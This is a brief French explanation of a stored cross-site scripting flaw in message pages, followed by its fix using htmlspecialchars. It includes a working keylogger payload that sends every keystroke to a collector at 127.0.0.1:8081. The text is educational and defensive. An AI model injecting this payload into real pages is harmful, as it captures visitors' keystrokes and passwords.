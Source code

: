 # Injection JS
## Explication de la faille
Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.
```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
    http.send();
}
</script>
```
## Explication du correctif
Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.
